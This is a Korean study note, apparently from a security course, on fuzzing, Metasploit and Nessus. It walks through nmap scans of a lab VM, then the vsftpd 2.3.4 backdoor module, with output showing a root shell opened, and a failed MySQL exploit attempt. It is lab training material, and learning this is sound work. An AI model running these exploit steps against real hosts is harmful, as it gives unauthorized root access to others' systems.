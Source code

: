 # Fuzzing
1. 예상치 않는 또는 무작위 데이터를 입력하는 것
2. 유효한

일단 아무거나 넣어보고 되면 좋은 것임.
웹사이트 개발자가 `설마 이런 행동을 하겠어?` 한 것을 넣어 본다는 것이다.

## 하는 이유
취약점을 찾기 위해서

<br><br><br>

# Metasploit
Ruby로 만들어 진 보안(공격) 프레임워크

https://www.exploit-db.com/ 사이트에 올라온 취약점을 묶어 놓은 것이 메타스플로이트이다.

## msfconsole
아래 명령어로 프롬포트를 실행할 수 있다.
``` bash
msfconsole
```
많이 사용하는 명령어로는 `search`, `show`, `info`, `use` 가 있다.

공격을 하기위해선 대상 시스템의 기본 정보(취약한 정보)를 파악해야한다.

``` bash
msf6 >
nmap -sT -O 192.168.60.129
```
``` shell
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 00:0C:29:0D:F5:10 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
```

<br><br>

## 공격 대상 파악
제대로 공격 대상을 파악하기 위해 `nmap` 을 더 advanced 하게 사용해보자.

아래는 포트스캔 방법이다.
```
msf6 >
nmap -sT -O 192.168.60.129
```

아래는 시스템 서비스의 모든 정보를 가져오는 것이다.
```
msf6 >
nmap -sT -A 192.168.60.129
```
```
...
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
...
```
이 시스템은 `vsftpd 2.3.4` 를 사용하는 것이 파악된다.
이를 아래 사이트에 검색해서 발견된 취약점이 있는지 찾아보자.

https://www.exploit-db.com/

![](./Images/7-1.PNG)

일일이 웹에 검색할 필요 없이 명령어로 확인하는 것도 가능하다.
```
msf6 >
search vsftpd 2.3.4
```
또는 일반 bash 프롬포트에서
``` bash
searchSploit vsftpd 2.3.4
```
<br><br>

## 모듈 사용
```
msf6 >
use exploit/unix/ftp/vsftpd_234_backdoor
```
그러면 프롬포트가 아래와 같이 바뀐 것을 확인 할 수 있다.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

모듈 사용은 그만하고 싶을 때는 `back` 을 입력하면 된다.

`info` 명령어를 입력하면 사용하려는 모듈 정보가 나온다.
```
       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03
```

이제 사용해볼텐데 명령어에 필요한 옵션들을 보자.
```
msf6 >
show options
```
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR ident
                                      ifier, or hosts file with syntax 'fi
                                      le:<path>'
   RPORT   21               yes       The target port (TCP)

```
`RHOSTS` 부분에 `Current Setting` 이 되어있지 않은 것을 볼 수 있다.
공격할 호스트를 지정해주자.
```
msf6 >
set RHOSTS 192.168.60.129
```
```
RHOSTS => 192.168.60.129
```

이제 실행을 하자.
```
msf6 >
run
```
```
[*] 192.168.60.129:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.60.129:21 - USER: 331 Please specify the password.
[+] 192.168.60.129:21 - Backdoor service has been spawned, handling...
[+] 192.168.60.129:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.60.129:6200) at 2021-04-15 11:42:25 +0900
```
Command shell session 1개가 열렸다고 되어있다.
백도어 진입이 성공했다는 것이다.

root 권한으로 리눅스 명령어 실행이 가능하다.

## Mysql 공격
```
use exploit/linux/mysql/mysql_yassl
show options
set RHOST 192.168.60.129
run
```
```
[-] 192.168.60.129:3306 - Exploit aborted due to failure: no-target: Unable to detect target automatically
```
실패했다...

<br><br><br>

# nessus
```
dpkg -i Nessus-*.deb
```
https://127.0.0.1:8834 들어가서
verification code 받고 등록하고 플러그인 깔아서 nessus 동작 시작
